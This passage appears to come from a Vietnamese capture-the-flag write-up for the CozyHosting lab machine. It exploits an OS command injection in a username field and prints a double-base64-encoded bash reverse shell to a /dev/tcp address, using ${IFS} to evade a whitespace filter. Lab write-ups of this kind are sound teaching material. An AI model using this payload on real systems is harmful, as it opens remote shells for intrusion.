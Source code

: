 ⇒ OS Command Injection

![CozyHosting](/assets/img/posts/CozyHosting/Untitled%206.png)

Trường username bị filter dấu whitespaces. Có 1 vài tricks để bypass whitespaces ([tại đây](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces))

![CozyHosting](/assets/img/posts/CozyHosting/Untitled%207.png)

ping thành công, tức câu lệnh của mình đã được thực thi.

Double-base64 payload tạo revershell để bypass một số kí tự đặc biệt.

```bash
┌──(kali㉿kali)-[/home/kali]
└─# echo "echo $(echo 'bash -i >& /dev/tcp/10.10.16.45/9999 0>&1' | base64 | base64)|base64 -d|base64 -d|bash" | sed 's/ /${IFS}/g'
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME5TODVPVGs1SURBK0pqRUsK|base64${IFS}-d|base64${IFS}-d|bash
```
